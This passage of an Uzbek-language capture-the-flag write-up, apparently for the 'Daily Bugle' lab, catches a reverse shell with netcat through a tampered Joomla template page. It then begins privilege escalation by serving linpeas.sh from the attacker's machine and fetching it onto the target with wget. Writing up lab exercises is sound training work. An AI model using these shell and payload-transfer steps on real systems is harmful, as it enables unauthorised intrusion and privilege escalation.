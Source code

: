 

Endi esa zararlangan kodga so'rov yuboramiz browser orqali

```
http://10.10.128.34/templates/protostar/error.php
```



Va qabul qildik terminalni...

```
mete@sec ~/T/T/0706-2025> nc -nvln 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.128.34 38644
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:39:37 up  1:31,  0 users,  load average: 1.26, 1.19, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```



## Privililage Escalation

Tizimga kirib oldik endi esa imtiyozlarni oshirish kerak.

Tizimni tahlil qilish uchun bizga linpeas.sh dasturi kerak bo'ladi. Uni kompyuterimga yuklab, serverga olib o'tishimiz kerak.



Uni yuklab olish:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

​    

Kompyuterimizga yuklab olgach biz o'zimizdan HTTP server ochib faylni serverga olib o'tamiz.

Http server ochish:

```
sudo python3 -m http.server 80
```

​    

Serverga yuklash:

```
wget 10.8.24.135/linpeas.sh
```

​    

Unga Execution huquqini berish:
